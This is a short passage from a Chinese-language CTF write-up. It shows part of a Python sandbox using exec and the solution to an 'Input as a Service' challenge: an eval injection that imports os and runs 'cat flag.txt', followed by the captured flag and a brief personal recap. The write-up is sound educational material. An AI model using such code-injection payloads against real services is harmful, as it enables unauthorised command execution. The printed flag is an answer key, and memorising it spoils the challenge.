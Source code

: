```python
        else:                   
            exec(text, {'__builtins__': None, 'print':print})


if __name__ == "__main__":   
    main()
```

### Input as a Service

eval 即可得 flag，构造载荷如下。

```python
eval("__import__('os').system(\"cat flag.txt\")") 
```

```flag
CHTB{4li3n5_us3_pyth0n2.X?!}
```

## Summary

打了一场练习赛，虽然没什么师傅在一起做，但是还是玩得很开心，题目都比较简单。下周接着冲冲冲。

